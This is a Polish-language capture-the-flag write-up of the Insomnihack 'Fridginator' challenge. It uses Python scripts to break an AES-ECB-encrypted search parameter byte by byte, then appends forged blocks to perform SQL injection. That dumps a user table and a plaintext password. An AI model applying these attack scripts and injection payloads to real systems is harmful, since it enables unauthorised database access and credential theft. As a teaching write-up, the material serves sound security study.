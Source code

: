 ##Fridginator (Crypto/Web, 200p)

> My brother John just bought this high-tech fridge which is all flashy and stuff,
> but has also added some kind of security mechanism which means I can't steal his
> food anymore... I'm not sure I can survive much longer without his amazing yoghurts.
> Can you find a way to steal them for me?
> http://fridge.insomnihack.ch/

###PL
[ENG](#eng-version)

Łączymy się ze wskazanym adresem. Trzeba zarejestrować swojego użytkownika.

Zaczynamy od sprawdzenia co możemy zrobić. Możemy dodawać 'jedzenie' do lodówki, wyciągać swoje jedzenie, oraz wyszukiwać użytkowników i jedzenie.

[](screen.PNG)

Ta ostatnia opcja wydaje się ciekawa, ponieważ oba pola wyszukiwania prowadzą ostatecznie do bardzo podobnej strony. Wyszukanie użytkownika 'aaa' redirectuje do:

http://fridge.insomnihack.ch/search/c5c376484a22a1a196ced727b32c05ce706fa0919a8b040b2a2ba335c7c45726/

A wyszukanie jedzenia 'aaa' redirectuje do:

http://fridge.insomnihack.ch/search/c5c376484a22a1a196ced727b32c05ceed1a8d4636d71c65dcf1bca14dac7665/

Nasza myśl (jak później się okazało - prawie trafna): być może parametr do search to zaszyfrowane jakimś szyfrem blokowym zapytanie SQL.

Długość bloku to 16 bajtów - można to sprawdzić, bo szyfrowanie 0123456789ABCD daje w wyniki:

    b15fd5ffdae30bbe81f2ba9ec6930473b57ceb7611442a1380e2845a9b916405

A już zaszyfrowanie 0123456789ABCDE (15 znaków) daje:

    b15fd5ffdae30bbe81f2ba9ec6930473cce0dd7d051074345c5a8090ba39d24cb9719c83f5ab5c0751937a39150c920d

Mamy już jedną informację. Teraz możemy sprawdzić czy bloki są w jakiś sposób przeplatane (CTR, CBC), czy szyfrowane niezależnie (ECB):

Zaszyfrowanie aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa daje nam w wyniku:

    5616962f8384b4f8850d8cd1c0adce98 e449af7ccbc7f34f2f1976a5fbfeb93f e449af7ccbc7f34f2f1976a5fbfeb93f e449af7ccbc7f34f2f1976a5fbfeb93f 04ea1913c8d3e7f30d2626ee9dfeff07 f1ad77dcff3212b1a5f83d230610d845

Wyraźnie widać powtarzający się blok na środku (więc mamy do czynienia z ECB), ale pierwszy i ostatni blok się różnią (więc do danych jest doklejany jakiś prefiks i sufiks).

Pierwszą rzeczą jaką zrobiliśmy, było napisanie "fuzzera" do zaszyfrowanych danych - gdyż byliśmy ciekawi co powiedzą nam błędy. Kod jest mało ciekawy (podany w [pliku fuzzer.py](fuzzer.py)), ale wyniki bardziej - spośród wyfuzzowanych kilkuset błedów, najciekawsze dwa:

    <p> Error : no such table: objsearch_user♠ </p>
    <p> Error : unrecognized token: &quot;&#39;i WHERE description LIKE ?&quot; </p>

Ok, mamy już jakieś dane. Co teraz? Wpadliśmy na to, że można wyciągnąć "sufiks" który jest doklejany do naszych danych przed szyfrowaniem - bajt po bajcie.

Jak konkretnie to zrobić - wiemy że dane są szyfrowane blok po bloku. Oznaczając przez [xxxxxxxxx] bloki, (i przez 'a' payload) zaszyfrowane dane wyglądają mniej więcej tak:

    [prefixaaaaa][aaaaaaaaaa][aaaaaaaaaa][aaaaaaasuf][fix_______]

Ale jeśli wyślemy odpowiednio długi content, możemy otrzymać taki układ:

    [prefixaaaaa][aaaaaaaaaa][aaaaaaaaaa][aaaaaaaaas][uffix_____]

Co nam to daje - że czwarty blok tak zaszyfrowanych danych skłąda się z 15 znaków 'a', oraz pierwszego bajtu payloadu.
Wystarczy przebrutować około 100 printowalnych znaków ASCII, i sprawdzić który z nich szyfruje się do tego samego bloku co ten powyżej, i mamy pierwszy znak sufiksu. A później powtarzać aż poznamy cały sufiks.

Napisaliśmy do tego taki skrypt (dość skomplikowany, ponieważ trzeba było zaimplementować szyfrowanie przez stronę):

```python
import requests
import time
import string

prefx_len = 7
sufx_len = 11

def encrypt(payload):
    sessid = 'ln8h6x5zwp6oj2e7kz6zd45hlu97q3yp'
    cookies = {'sessionid': sessid}
    cookies['AWSELB'] = '033F977F02D671BCE8D4F0E661D7CA8279D94E64EF1BD84608DB9FFA0FC0F2F4F304AC9CD30CDCC86788A845DF98A68A77D605B8BF768114D93228AACFB536DE3963E28F295D0C2D52138BA1520672BB1428B11124'
    url0 = 'http://fridge.insomnihack.ch/'

    base = requests.get(url0, cookies=cookies)
    text = base.text

    csrf = "<input type='hidden' name='csrfmiddlewaretoken' value='"
    start = text.find(csrf) + len(csrf)
    token = text[start:start+32]
    cookies['csrftoken'] = token

    url = 'http://fridge.insomnihack.ch/users/'
    resp = requests.post(url, data={'term': payload, 'csrfmiddlewaretoken': token}, cookies=cookies, allow_redirects=False)
    prefx = '/search/'
    loc = resp.headers['location']
    return loc[len(prefx):-1]


prefx = 'p' * prefx_len
known_suffix = ''
for i in range(sufx_len):
    content_len = 48 - prefx_len - len(known_suffix) - 1
    content = 'a' * content_len

    crypted = encrypt(content)
    crypted_chunks = chunks(crypted, 32)
    print crypted_chunks
    sought = crypted_chunks[-2]
    print 'sought', i, sought

    for c in [chr(x) for x in range(256)]:
        payload = content + known_suffix + c
        decrypted = encrypt(payload)
        decrypted_chunks = chunks(decrypted, 32)
        print decrypted_chunks
        result = decrypted_chunks[-2]
        if result == sought:
            print 'got', c
            known_suffix += c
            print known_suffix
            break
```

Sufiks który otrzymaliśmy to:

    |type=user

Jesteśmy w domu. Bo patrząc na błędy które otrzymaliśmy, ten typ jest doklejany bezpośrednio do zapytania - więc możemy zrobić SQLi, jeśli tylko nauczymy się jak "dokleić" coś na koniec zaszyfrowanego tekstu.

A możemy spokojnie dokleić coś na koniec ciphertextu, o ile długość ciphertextu jest wielokrotnością 16 bajtów - obrazowo:

    [prefixaaaaa][aaaaaaaaaa][aaaaaaaaaa][aa|type=user][ WHERE 1=1 --]

Spowoduje wykonanie zapytania w rodzaju

    SELECT (?) FROM objsearch_user WHERE 1=1 -- ???

Idealnie.

A blok `[ Where 1=1 --]` (i dowolny inny) możemy spokojnie zaszyfrować - zrobi to za nas strona.

Jest tylko jedna pułapka - padding. Dane szyfrowane szyfrem blokowym muszą mieć długośc równą wielokrotności 16 bajtów. Co jeśli są krótsze?

Jeden z popularnych schematów paddingu (konkretnie, PKCS7) działa tak:
* jeśli danym do wielokrotności 16 bajtów brakuje 1 bajta - doklej na koniec '\x01'
* jeśli danym do wielokrotności 16 bajtów brakuje 2 bajtów - doklej na koniec '\x02\x02'
* jeśli danym do wielokrotności 16 bajtów brakuje 3 bajtów - doklej na koniec '\x03\x03\x03'
* ...
* i uwaga, jeśli danym już są wielokrotnością 16 bajtów - doklej na koniec '\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10'

Ostatni warunek jest konieczny, żeby deszyfrowanie było zawsze jednoznaczne. Tak więc trzeba pamiętać, że ostatni zaszyfrowany blok będzie "fałszywym" blokiem składającym się wyłącznie z bajtów 0x10, i musimy go pominąć a później dokleić na końcu.

Łącząc te wszystkie pomysły, napisaliśmy taki kod [final.py](final.py):

```python
def hack(query):
    parts = encrypt2(query)
    part = ''.join(parts)
    prfx = 'b15fd5ffdae30bbe81f2ba9ec6930473cce0dd7d051074345c5a8090ba39d24c'
    sufx = 'b9719c83f5ab5c0751937a39150c920d'
    return prfx + part + sufx 

def hack2(query):
    payload = hack(query)
    session = '16if76517xm5zvvwn0l09yq8hqwbgdi5'
    cookies = {'sessionid': session}
    cookies[
        'AWSELB'] = '033F977F02D671BCE8D4F0E661D7CA8279D94E64EFD0AA7BC023208F4937F97452EF3E07B21CF2698ED17FB3AE4D8A6166A17A44ACBC6810BEC0739D56BBE463F63CC54BC91275B57E8FE8CBB9B39F65DFAFFA27C1'
    url = 'http://fridge.insomnihack.ch/search/'
    r = requests.get(url + payload, cookies=cookies)
    return r.text

def hack3(query):
    return hack2(' union all select 1, (' + query + '), 3, 4, 5 union all select 1, 2, 3, 4, 5 from objsearch_user ')

import sys
print hack3(sys.argv[1])
```

Pozwala on trywialnie wykonać dowolne zapytanie na bazie - wygląda na to żę zadanie praktycznie zrobione

Jedyne trzy tabele które znaleźliśmy (niestety, nie mamy screenów) to objsearch_user, objsearch_object oraz sqlite_sequence.

Wyciągneliśmy więc po prostu DDL dla objsearch_user:

    CREATE TABLE &quot;objsearch_user&quot; (&quot;id&quot; integer NOT NULL PRIMARY KEY AUTOINCREMENT, &quot;username&quot; varchar(200) NOT NULL, &quot;description&quot; varchar(2000) NOT NULL, &quot;password&quot; varchar(200) NOT NULL, &quot;email&quot; varchar(200) NOT NULL)

A następnie wyciągneliśmy "password" dla użytkownika "John" - okazało się być plaintextowe:

    SuperDuperPasswordOfTheYear!!!

Wystarczyło w tym momencie zalogowąć się na użytkownika John i "wyciągnąć" jego jedzenie z lodówki:

    Hello Johnny, have your food and a flag, because why not? INS{I_do_encryption_so_no_SQL_injection}

###ENG version

